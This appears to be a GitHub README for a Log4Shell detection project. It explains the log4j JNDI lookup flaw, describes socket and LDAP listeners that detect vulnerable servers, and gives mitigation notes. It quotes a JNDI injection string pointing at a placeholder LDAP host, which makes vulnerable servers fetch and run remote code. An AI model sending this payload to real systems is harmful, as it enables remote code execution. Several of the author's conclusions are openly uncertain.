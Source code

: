 # Log4Shell Zero-Day Exploit

if attacker manage to log this string `${jndi:ldap://someaddresshere/param1=value1}`
to log4j it somehow loads the class/java bytecode sent by Attacker Controlled LDAP Server. The bytecode could be used to
execute any malicious code or do some little trolling.

take this with grain of salt, I'm not a security expert.

## Detection

### Patched

- Mitigated by deleting `org.apache.logging.log4j.core.lookup.JndiLookup` somehow didn't crash
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919169712435388466/unknown.png)

### Unpatched

- Note: 1.16.5 Minecraft Server
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919170755843989534/unknown.png)
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919172251771895878/unknown.png)

### [MainDetector.java](standalone-detector/src/main/java/itzbenz/MainDetector.java)

Use simple socket to listen on port 1389 then close the socket once its connected no external dependency
- Note: not always the case, sometimes it doesn't bother to load class url location given by LDAP Server
- Vulnerable:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166884425900082/unknown.png)

- Console:\
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919166938654072852/unknown.png)

going to throw error if its is vulnerable

### [MainAlerter.java](standalone-detector/src/main/java/itzbenz/MainAlerter.java)

Use `com.unboundid:unboundid-ldapsdk` library to host LDAP server

- Note: not always the case if using `javaNamingReference`
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919168285709312000/unknown.png)
- LADP Server:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919171844836311050/unknown.png)

### DNS Log

Both sender and receiver are logged which mean they are vulnerable

- Note: not always the case
- Vulnerable:
  ![](https://cdn.discordapp.com/attachments/840041811384860707/919174049861619752/unknown.png)

## Conclusion

- if java do LDAP lookup doesn't mean it is always vulnerable, but if is load the classpath provided then it is ?
  - vulnerable:
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448027058540554/unknown.png)
  - not vulnerable because java don't fetch bytecode ??
    ![](https://cdn.discordapp.com/attachments/919142724114972744/919448406924083210/unknown.png)

- to test if its actually vulnerable, try to use harmless payloads if its running then its vulnerable.

- if `com.sun.jndi.ldap.object.trustURLCodebase` property is set to `true` then you are vulnerable like really
  ![](https://cdn.discordapp.com/attachments/918290369639227434/919240541810610206/unknown.png)

- if you found the victim log and see this:

```
  Caused by: java.lang.ClassNotFoundException: itzbenz.payload.ObjectPayloadSerializable
        at java.net.URLClassLoader.findClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
        at sun.misc.Launcher$AppClassLoader.loadClass(Unknown Source)
        at java.lang.ClassLoader.loadClass(Unknown Source)
  ```

it's safe because it will not load classpath provided by attacker ??

note: (after updating java 8, the minecraft server seem not load the classpath)

# Disclaimer

This project can only be used for educational purposes. Using this software against target systems without prior
permission is illegal, and any damages from misuse of this software will not be the responsibility of the author.
